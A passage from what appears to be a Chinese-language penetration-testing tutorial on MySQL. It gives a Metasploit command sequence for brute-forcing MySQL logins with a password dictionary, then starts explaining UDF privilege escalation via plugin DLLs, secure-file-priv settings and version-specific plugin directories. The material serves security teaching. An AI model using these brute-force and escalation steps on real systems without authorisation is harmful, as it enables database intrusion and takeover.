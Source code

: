 设置对应的攻击载荷，攻击成功。

![暴力破解执行成功](./MySQL/暴力破解执行成功.png)

命令总结

```bash
msfconsole
search mysql # 搜索payload
use auxiliary/scanner/mysql/mysql_login # 使用对应payload
show options # 查看参数设置
set rhost 攻击的ip
set username 攻击的用户
set pass_file 攻击的字典
show options 
exploit # 进行攻击
```

## 提权利用

### UPF提权

UDF （User Defined Function，用户自定义函数）：基于MYSQL调用命令执行函数。

这里的自定义函数要以dll形式写成mysql的插件，提供给mysql来使用。也就是说我们可以通过编写dll文件来实现我们需要的功能。利用UDF提权需要知道root账户的密码，并且需要目标系统是Windows。可以使用现成的udf提权工具，也可以手工测试。

在MySQL高版本中secure-file-priv参数限制了MySQL的导出：

1. NULL，表示禁止

2. 如果value值有文件夹目录，则表示只允许该目录下文件（子目录都不行）

3. 如果为空(没有值)，则表示不限制目录

mysql版本不同，UDF导出目录也会有所不同。

1. mysql<5.1 导出到c:/windows或system32目录

2. mysql>=5.1 导出到安装目录/lib/plugin（mysql初始安装时，plugin目录默认不存在，需要我们自己创建，Linux也可以用，现在市面上的数据库基本都是5.1版本以上的）。

select version()：查看版本
